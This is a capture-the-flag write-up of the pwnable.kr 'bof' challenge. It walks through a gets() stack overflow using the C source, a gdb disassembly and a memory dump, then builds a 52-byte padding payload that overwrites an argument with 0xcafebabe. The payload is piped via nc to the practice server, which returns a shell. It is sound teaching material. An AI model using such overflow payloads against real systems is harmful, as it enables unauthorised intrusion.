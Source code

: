 ```yaml
---
title: "Buffer Overflow"
platform: "Other"
difficulty: "Medium"
date: 2024-02-20
tags: ["bof"]
---
```


## Analyze

Let's start with source code.

```c
#include <stdio.h>
#include <string.h>
#include <stdlib.h>
void func(int key){
	char overflowme[32];
	printf("overflow me : ");
	gets(overflowme);	// smash me!
	if(key == 0xcafebabe){
		system("/bin/sh");
	}
	else{
		printf("Nah..\n");
	}
}
int main(int argc, char* argv[]){
	func(0xdeadbeef);
	return 0;
}

```
main function call `func` with argument `0xdeadbeef`.

lets take look at `func()`

```c
char overflowme[32];
``` 
it create `overflowme` variable and asign 32 buffer space.

```c
printf("overflow me : ");
gets(overflowme);
```
next it print "overflow me" and then read value from user.

```
if(key == 0xcafebabe){
		system("/bin/sh");
	}
	else{
		printf("Nah..\n");
	}
```

it check if `key`  is equal to `0xcafebabe` if yes then it give a shell otherwise it print `Nah..`.

## Exploitation

In this challenge we doesn't need to find offset and create shellcode.
we just need to overwrite `0xdeadbeef` with `0xcafebabe` and we can spawn shell.

lets play with  binary in gdb.

First we set breakpoint at `main`.

```bash
gef➤  break main                                                                                            
Breakpoint 1 at 0x68d                                 
gef➤  run  
```

Now program stop executing at `main`. Lets disassemble `func` and see how it work.

```asm
gef➤  disass func
Dump of assembler code for function func:
   0x5655562c <+0>:     push   ebp
   0x5655562d <+1>:     mov    ebp,esp
   0x5655562f <+3>:     sub    esp,0x48
   0x56555632 <+6>:     mov    eax,gs:0x14
   0x56555638 <+12>:    mov    DWORD PTR [ebp-0xc],eax
   0x5655563b <+15>:    xor    eax,eax
   0x5655563d <+17>:    mov    DWORD PTR [esp],0x5655578c
   0x56555644 <+24>:    call   0xf7e3e330 <puts>
   0x56555649 <+29>:    lea    eax,[ebp-0x2c]
   0x5655564c <+32>:    mov    DWORD PTR [esp],eax
   0x5655564f <+35>:    call   0xf7e3d850 <gets>
   0x56555654 <+40>:    cmp    DWORD PTR [ebp+0x8],0xcafebabe
   0x5655565b <+47>:    jne    0x5655566b <func+63>
   0x5655565d <+49>:    mov    DWORD PTR [esp],0x5655579b
   0x56555664 <+56>:    call   0xf7e12f10 <system>
   0x56555669 <+61>:    jmp    0x56555677 <func+75>
   0x5655566b <+63>:    mov    DWORD PTR [esp],0x565557a3
   0x56555672 <+70>:    call   0xf7e3e330 <puts>
   0x56555677 <+75>:    mov    eax,DWORD PTR [ebp-0xc]
   0x5655567a <+78>:    xor    eax,DWORD PTR gs:0x14
   0x56555681 <+85>:    je     0x56555688 <func+92>
   0x56555683 <+87>:    call   0xf7ee1930 <__stack_chk_fail>
   0x56555688 <+92>:    leave  
   0x56555689 <+93>:    ret    
End of assembler dump.

```

on `0x56555654` we can see it compare `0xcafebabe` with `func` argument which is `0xdeadbeef`.

we set breakpoint exactly `0x56555654`.

Set breakpoint and continue executation.it ask for input. we provide `bbbbbbbbbbbbbbb`. here we need to provide short input because we don't want to crash the program. we just want to see normal executation flow of program.

```bash
gef➤  break *0x56555654
Breakpoint 2 at 0x56555654
gef➤  c
Continuing.
overflow me : 
bbbbbbbbbbbbbbb 
```

program hit our second breakpoint. now lets examine the memory.

```asm
gef➤  x/50wx $esp
0xffffd590:     0xffffd5ac      0x00000000      0xf7ffd000      0x00000000
0xffffd5a0:     0x00000000      0x00000000      0x56555034      0x62626262
0xffffd5b0:     0x62626262      0x62626262      0x00626262      0x5655549d
0xffffd5c0:     0xf7fb33fc      0xffffffff      0x56556ff4      0x2afbe700
0xffffd5d0:     0x56556ff4      0xf7fb3000      0xffffd5f8      0x5655569f
0xffffd5e0:     0xdeadbeef      0x00000000      0x565556b9      0x00000000
0xffffd5f0:     0xf7fb3000      0xf7fb3000      0x00000000      0xf7decdf6
0xffffd600:     0x00000001      0xffffd6a4      0xffffd6ac      0xffffd634
0xffffd610:     0xffffd644      0xf7ffdb40      0xf7fcd410      0xf7fb3000
0xffffd620:     0x00000001      0x00000000      0xffffd688      0x00000000
0xffffd630:     0xf7ffd000      0x00000000      0xf7fb3000      0xf7fb3000
0xffffd640:     0x00000000      0xa4e739cb      0xe6d067db      0x00000000
0xffffd650:     0x00000000      0x00000000
```

here we can see our input we give `b` as `0x62`. and at `0xffffd5e0` memory address `0xdeadbeef`. 

Next we have to find out how many bytes we need to overwrite `0xdeadbeef`. here we need 13\*4=52 byets to overwrite `0xdeadbeef`. now we can build our payload.

```python
python -c 'print "a" * 52 + "\xbe\xba\xfe\xca" ' > exploit
```
we save our payload as `exploit` and send this to server.

```bash
➜  temp (cat exploit && cat) | nc pwnable.kr 9000
id
uid=1008(bof) gid=1008(bof) groups=1008(bof)
cat flag
daddy, I just pwned a buFFer :)
```

